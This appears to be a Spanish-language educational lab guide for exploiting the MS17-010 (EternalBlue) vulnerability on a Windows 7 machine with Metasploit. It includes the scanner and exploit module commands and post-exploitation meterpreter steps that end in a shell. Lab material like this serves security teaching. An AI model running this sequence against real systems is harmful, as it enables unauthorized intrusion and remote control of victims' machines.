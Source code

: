 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner auxiliar para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_010
```
![alt text](./lab01-images/lab01-fig2-msf-console.PNG "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
**utilizar un módulo para explotar la vulnerabilidad ms17_010**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST “Dirección IP del host windows 7 64bits” 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
 
**Post Explotación**
```bash
Sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.PNG "Metasploit framework")
```bash
Getuid
```
![alt text](./lab01-images/lab01-fig6-msf-console.PNG "Metasploit framework")
```Bash
Shell
```
![alt text](./lab01-images/lab01-fig7-msf-console.PNG "Metasploit framework")

**Enlace para mayor información**

[Sobre Metasploit Framework] (https://www.metasploit.com/)

[Comandos usados en  Measploit Framework] (https://www.offensive-security.com/
metasploit-unleashed/msfconsole-commands/)

[Fundamentos de meterpreter] (https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
